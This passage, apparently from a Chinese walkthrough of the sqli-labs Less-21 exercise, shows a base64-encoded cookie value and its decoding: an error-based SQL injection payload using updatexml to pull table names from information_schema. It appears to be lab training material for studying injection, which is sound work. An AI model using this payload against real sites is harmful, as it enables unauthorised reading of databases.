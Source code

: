 ![Less-21_17](./img/Less-21_17.PNG)

再添加

~~~shell
JykgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyB3aGVyZSB0YWJsZV9zY2hlbWE9ZGF0YWJhc2UoKSksMHg3ZSksMSkj
~~~

改为

~~~ shell
Cookie: uname=YWRtaW4xJykgYW5kIHVwZGF0ZXhtbCgxLGNvbmNhdCgweDdlLChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyB3aGVyZSB0YWJsZV9zY2hlbWE9ZGF0YWJhc2UoKSksMHg3ZSksMSkj
~~~

其base64解码是

~~~ shell
admin1') and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)#
~~~
